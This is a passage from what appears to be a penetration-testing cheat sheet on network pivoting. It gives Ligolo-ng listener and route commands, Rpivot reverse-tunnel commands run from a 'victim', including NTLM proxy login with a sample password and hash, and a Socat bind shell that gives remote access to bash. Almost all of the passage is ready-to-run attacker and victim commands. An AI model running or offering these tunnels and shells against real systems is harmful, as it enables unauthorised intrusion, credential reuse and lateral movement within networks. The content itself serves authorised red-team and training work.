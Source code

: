 ```bash
# Establish a tunnel from the proxy server to the agent
# Create a TCP listening socket on the agent (0.0.0.0) on port 30000 and forward incoming TCP connections to the proxy (127.0.0.1) on port 10000 -- Attacker
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
# Display the currently running listeners on the agent -- Attacker
listener_list
```

### Access Agent's Local Ports

```bash
# Establish a tunnel from the proxy server to the agent
# Create a route to redirect traffic for 240.0.0.1 to the Ligolo-ng interface to access the agent's local services -- Attacker
interface_add_route --name "ligolo" --route 240.0.0.1/32
```

## Rpivot

[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)

Reverse tunnel. The tunnel is started from the victim.\
A socks4 proxy is created on 127.0.0.1:1080

```bash
attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999
```

Pivot through **NTLM proxy**

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd
```

```bash
victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```

## **Socat**

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### Bind shell

```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```
